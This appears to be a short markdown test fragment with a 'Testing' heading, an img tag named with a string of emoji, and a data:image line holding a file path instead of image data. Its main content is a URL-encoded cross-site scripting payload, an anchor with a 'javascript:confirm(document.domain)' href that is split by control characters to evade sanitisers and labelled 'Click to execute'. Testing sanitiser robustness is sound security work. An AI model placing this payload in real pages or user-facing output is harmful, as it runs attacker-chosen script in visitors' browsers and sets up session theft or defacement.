# Testing


<img src="✅🙏✅🙏✅🙏✅🙏✅🙏✅🙏✅🙏✅🙏.png">

%3Ca+href%3D%22%01java%03script%3Aconfirm%28document.domain%29%22%3EClick+to+execute%3Ca%3E%0D%0A
